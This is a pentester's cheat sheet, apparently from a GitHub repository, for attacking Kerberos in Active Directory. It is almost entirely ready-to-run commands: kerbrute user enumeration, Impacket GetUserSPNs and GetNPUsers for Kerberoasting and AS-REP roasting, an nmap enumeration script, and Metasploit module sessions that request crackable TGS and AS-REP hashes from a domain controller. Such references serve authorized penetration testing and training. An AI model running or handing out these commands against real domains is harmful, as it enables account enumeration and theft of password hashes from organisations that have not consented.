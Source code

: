 # Kerberos

## 01 - Manual

### 1.1 - Usage

#### 1.1.1 - Enumerate Users

* **Enumerate users against the active directory**

`$ ./kerbrute userenum --dc <IP> -d <domain_name> users.txt -t 64`

#### 1.1.2 - Kerberoast

* **Request a Kerberos 5 TGS-REP etype 23 hash from an SPN user account**

`$ GetUserSPNs -request -dc-ip <IP> <domain_name>/<username>:<password>`

#### 1.1.3 - ASREPRoast

* **Request a Kerberos 5, etype 23, AS-REP hash from an NP user account**

`$ GetNPUsers -request -dc-ip <IP> <domain_name>/<username>:<password>`

`$ GetNPUsers -request -dc-ip <IP> <domain_name> -usersfile users.txt`

## 02 - Nmap

`$ nmap -p 88 --script=krb5-enum-users --script-args krb5-enum-users.realm="<domain_name>",userdb=<usernames.txt> <IP>`

## 03 - Metasploit

### 3.1 - Enumerate Users

```
msf > use auxiliary/gather/kerberos_enumusers

msf auxiliary(gather/kerberos_enumusers) > options

Module options (auxiliary/gather/kerberos_enumusers):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   DOMAIN                      yes       The Domain Eg: demo.local
   RHOSTS                      yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT      88               yes       The target port
   Timeout    10               yes       The TCP timeout to establish connection and read data
   USER_FILE                   yes       Files containing usernames, one per line

msf auxiliary(gather/kerberos_enumusers) > set domain <domain_name>

msf auxiliary(gather/kerberos_enumusers) > set rhosts <IP>

msf auxiliary(gather/kerberos_enumusers) > set user_file usernames.txt

msf auxiliary(gather/kerberos_enumusers) > exploit -j
```

### 3.2 Kerberoast

```
msf > use auxiliary/gather/get_user_spns

msf auxiliary(gather/get_user_spns) > options

Module options (auxiliary/gather/get_user_spns):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOSTS                    yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   THREADS  1                yes       The number of concurrent threads (max one per host)
   domain                    yes       The target Active Directory domain
   pass                      yes       Password for the domain user account
   user                      yes       Username for a domain account

msf auxiliary(gather/get_user_spns) > set rhosts <IP>

msf auxiliary(gather/get_user_spns) > set threads 4

msf auxiliary(gather/get_user_spns) > set domain <domain_name>

msf auxiliary(gather/get_user_spns) > set user <username>

msf auxiliary(gather/get_user_spns) > set pass <password>

msf auxiliary(gather/get_user_spns) > exploit
```

## References

* [Impacket](https://github.com/fortra/impacket)

* [Kerbrute](https://github.com/ropnop/kerbrute)

* [Kerberoasting Common Tools](https://blog.certcube.com/kerberoasting-common-tools/)

* [Pentesting Kerberos 88](https://book.hacktricks.xyz/pentesting/pentesting-kerberos-88)